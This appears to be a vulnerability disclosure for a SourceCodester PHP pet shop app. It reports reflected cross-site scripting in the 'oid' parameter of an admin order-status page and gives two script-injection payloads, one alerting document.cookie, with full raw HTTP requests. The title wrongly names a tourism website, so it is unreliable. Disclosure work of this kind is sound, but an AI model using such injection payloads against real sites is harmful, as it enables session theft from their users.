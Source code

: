 # Simple Responsive Tourism Website v1.0 by oretnom23 has Cross-site scripting (reflected)

Website source address:https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

BUG_Author: hujianjie

Vulnerability File: /pet_shop/admin/orders/update_status.php

Parameter "oid" (GET), exists XSS vulnerability

Payload1:oid=1"><script>alert(1111)</script>

```
GET /pet_shop/admin/orders/update_status.php?oid=1%22%3E%3Cscript%3Ealert(1111)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![image](https://github.com/hujianjie123/picture/blob/main/hujianjie11.png)

Payload2:oid=1"><script>alert(document.cookie)</script>

```
GET /pet_shop/admin/orders/update_status.php?oid=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=6im5937jlonn632osugpc051rl
Connection: close
```

![image](https://github.com/hujianjie123/picture/blob/main/hujianjiecookie.png)
